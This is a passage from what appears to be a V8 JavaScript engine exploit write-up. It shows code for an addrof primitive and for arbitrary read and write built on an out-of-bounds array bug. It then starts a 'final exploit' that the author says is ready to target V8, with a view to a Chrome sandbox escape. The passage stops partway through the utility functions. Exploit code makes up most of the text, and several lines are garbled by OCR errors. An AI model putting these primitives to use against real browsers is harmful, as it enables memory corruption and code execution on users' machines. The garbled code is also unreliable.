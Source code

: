 ### Addrof Primitive:
- With the OOB array in place, having another array afterwards allows us to perform an OOB array read, thus enabling the creation of an `addrof` primitive.  

```js
let oob_rw_buffer = undefined;
let aux_arr = undefined;
function addrof(obj){
  aux_arr[0] = obj;
  return oob_rw_buffer[0x12];
}
function stagel(x, i=1){
  let a = [1.1, 2.2, 3.3];
  let b = [5.5, 5.5, 5.5, 5.5, 5.5];
  let c = [{}, 1, 2];
  let o = {m: -0};
  let t = Object.is(Math.expml(x), o.m) + 0;  // trigger the bug.
  t *= (i+0);                                 // i to inegral.
  a[t] = 1024*1024;
  oob_rw_buffer = b;                          // expose b to global scope
  aux arr = c;
  return 0;
}
```

### Arb Read / Arb Write:
- By storing the `ArrayBuffer` after all the allocations, we can calculate the offset difference between the `ArrayBuffer` and the OOB array. This enables us to perform arbitrary read and write operations.

```javascript
function arb_write(addr, val) {
    oob_rw_buffer[diff / 8n] = addr.i2f();
    dv.setBigUint64(0, val, true);
}
```

```javascript
function arb_read(addr) {
    oob_rw_buffer[diff / 8n] = addr.i2f();
    return dv.getBigUint64(0, true);
}
```

## Final Exploit:
> This is the final exploit I've developed, ready to target the V8 engine. However, to ensure reliability for Chrome, I need to correct the objects I corrupted and proceed with caution. If we manage to escape the Chrome sandbox, it’s game over.

```js
// ------------------------------------------------ Utility- Functions ------------------------------------------------ //
let conversion_buffer = new ArrayBuffer(8);
let float_view = new Float64Array(conversion_buffer);
let int_view = new BigUint64Array(conversion_buffer);
BigInt.prototype.hex = function() {
  return '0x' + this.toString(16);
};
BigInt.prototype.i2f = function() {
  int_view[0] = this;
  return float_view[0];
}
BigInt.prototype.smi2f = function() {
  int_view[0] = this << 32n;
  return float_view[0];
```